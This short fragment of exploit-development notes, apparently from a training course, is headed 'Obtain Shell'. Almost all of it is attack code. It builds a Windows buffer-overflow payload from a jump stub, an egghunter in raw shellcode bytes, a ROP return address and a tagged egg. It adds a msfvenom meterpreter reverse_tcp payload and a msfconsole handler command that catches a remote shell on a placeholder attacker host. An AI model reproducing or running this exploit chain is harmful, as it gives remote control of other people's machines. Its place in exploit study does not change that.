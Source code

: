 ##### Obtain Shell

```bash
# Edit Payload
preInputBuffer = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # xor ecx, ecx; test ecx, ecx; je 0x17 
egghunter = 
("\x66\x81\xca\xff\x0f\x42\x52\x68\xc6\x01\x00\x00\x58\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7")
inputBuffer = b"\x41" * (size - len(egghunter))
inputBuffer += pack("<L", (0x418674)) # 0x00418674 - pop eax; ret

payload = <msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=443 -f python -v payload>

shellcode = b"w00tw00t" + payload + b"\x44" * (400-len(payload))

buf = preInputBuffer + egghunter + inputBuffer + shellcode

kali$ sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST x.x.x.x; set LPORT 443; exploit"
```

## Creating Custom Shellcode











































